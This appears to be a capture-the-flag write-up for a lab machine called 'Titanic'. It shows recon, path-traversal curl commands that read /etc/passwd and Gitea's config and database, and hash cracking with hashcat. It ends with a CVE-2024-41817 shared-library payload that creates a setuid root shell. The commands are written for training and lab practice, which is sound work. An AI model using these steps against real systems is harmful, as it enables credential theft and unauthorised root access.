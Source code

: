 ![](images/image0.png)

# Titanic

---

## Scans

```bash
nmap -p- -Pn 10.129.187.150 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.187.150 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.187.150 -v --script vuln -oN nmap_vuln.txt
```

![](images/image18.png)

---

## ffuf

```bash
ffuf -w /opt/useful/seclists/Discovery/Web-Content/raft-medium-directories.txt:FUZZ -u http://titanic.htb/FUZZ -s
```

![](images/image26.png)

```bash
ffuf -w /opt/useful/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://titanic.htb/ -H 'Host: FUZZ.titanic.htb' -fc 301 -s
```

![](images/image21.png)

Here we discover

Also there is a form to book and we captured the request in burp and got to see that it provivdes a link to a download endpoint

![](images/image19.png)
![](images/image10.png)

Then we checked the dev subdomain to find a gitea instance

![](images/image7.png)
![](images/image25.png)

Then we discovered repos on the gitea

In the first repo we discovered mysql credentials

![](images/image24.png)
![](images/image27.png)

We also found more internal ports

Then we discovered the flask app and from the tickets email addresses

![](images/image4.png)
![](images/image17.png)

Note this might be vulnerable to path traversal or lfi as there is no validation checks being done

![](images/image8.png)

It is vulnerable!

```bash
curl http://titanic.htb/download?ticket=../../../../../../etc/passwd
```

![](images/image15.png)

Note in the docker we see the volume path and after research we get the app.ini for gitea:

![](images/image14.png)

```bash
curl 'http://titanic.htb/download?ticket=../../../../../../home/developer/gitea/data/gitea/conf/app.ini'
```

![](images/image23.png)

```bash
curl http://titanic.htb/download?ticket=../../../../../../home/developer/gitea/data/gitea/gitea.db --output gitea.db
```

then with this we dumped the database locally

![](images/image11.png)

Then we found password hashes that we can crack

![](images/image2.png)

we need to get these for the developer the passwd hash and the passwd hash algo:

```
e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|
```

```
pbkdf2$50000$50
```

and this is the salt:

```
0ce6f07fc9b557bc070fa7bef76a0d15|8bf3e3452b78544f8bee9400d6936d34
```

with these we made the hash to a crackable format:

https://github.com/hashcat/hashcat/blob/master/tools/gitea2hashcat.py

```bash
sqlite3 gitea.db 'select salt,passwd from user;' | python3 gitea2hashcat.py
```

![](images/image3.png)

We got the developer’s password with hashcat:

```bash
hashcat -m 10900 hash.txt rockyou.txt
```

![](images/image12.png)

Then successfully ssh’d into developer

```
ssh developer@10.129.187.150
```

user flag is on the desktop

![](images/image20.png)

Then i ran the classic linpeas + pspy combo

![](images/image9.png)
![](images/image5.png)

But it didnt return anything worthy unfortunately

After additional enumeration we see this weird .sh file

![](images/image13.png)

Then based on looking at the script code and the version of magick we identify a cve:

```
CVE-2024-41817
```

![](images/image16.png)

This is an exploit lets modify it

```bash
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cp /bin/bash /tmp/shell; chmod +s /tmp/shell");
    exit(0);
}
EOF
```

then wait for a min until the cronjob finishes

![](images/image6.png)
![](images/image22.png)

```
/tmp/shell -p
```

and we are root

![](images/image1.png)

root flag is at /root/root.txt
